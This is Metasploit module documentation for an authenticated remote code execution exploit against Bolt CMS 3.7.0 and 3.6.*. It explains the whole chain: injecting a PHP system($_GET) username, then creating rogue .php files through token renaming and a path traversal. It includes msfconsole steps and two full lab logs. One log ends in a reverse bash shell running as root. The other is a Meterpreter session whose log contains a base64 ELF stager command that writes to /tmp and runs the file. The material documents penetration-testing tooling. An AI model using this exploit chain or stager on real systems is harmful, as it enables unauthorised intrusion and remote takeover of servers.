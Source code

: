 ## Vulnerable Application

This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as the user running Bolt.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token.
This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name.
If this succeeds, the target may be vulnerable.
The module then proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.`
These tokens are used to create files with the blacklisted `.php` extention via HTTP POST requests to `/async/folder/rename`.
With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens.
While most (if not all) available tokens can be used to created .php files in the /root directory on the server,
the resulting files cannot always be used to execute commands.
The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens,
it seems the easiest way to identify a valid one is to use each token to create a .php file
and then check the contents of that file.
The module does exactly this, deleting any .php files that can't be used
until it finds a file for which the "displayname" value is an empty string ("").
This value indicates that the profile username matching this token is the `$_GET` variable generated earlier,
and that the file can be used to execute arbitrary commands.
If a valid .php file is created, the module executes the payload via an HTTP get request in this format:
`/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a Bolt CMS user. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/unix/webapp/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options

### FILE_TRAVERSAL_PATH

This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server.
It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.

### PASSWORD

The password for the Bolt CMS account to authenticate with. This option is required.

### TARGETURI

The base path to Bolt CMS. The default value is `/`.

### USERNAME

The username for the Bolt CMS account to authenticate with. This option is required.

## Scenarios

### Bolt CMS 3.7.0 running on CentOS 7

```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[+] Deleted file phfsbswowfp.php.
[+] Reverted user profile back to original state.
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### Bolt CMS 3.7.0 running on Ubuntu 18.04

```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               172.28.128.5           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.28.128.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qjej".
[*] Found CSRF token: pAuS_pLAjcUd8wPjq7Xus72UE2N0P4YB8HularDy3A0
[*] Found 1 potential token(s) for creating .php files.
[+] Used token a5881f86a828d3810fa0fa64fb to create cojwcnuk.php.
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwcgAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/QtQwu.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/nSljj' < '/tmp/QtQwu.b64' ; chmod +x '/tmp/nSljj' ; '/tmp/nSljj' ; rm -f '/tmp/nSljj' ; rm -f '/tmp/QtQwu.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 172.28.128.5
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.5:41918) at 2020-06-28 22:39:20 -0500
[!] No response, may have executed a blocking payload!
[*] Command Stager progress - 100.00% done (823/823 bytes)
[+] Deleted file cojwcnuk.php.
[+] Reverted user profile back to original state.

meterpreter > getuid
Server username: no-user @ ubuntu-bionic (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 18.04 (Linux 4.15.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
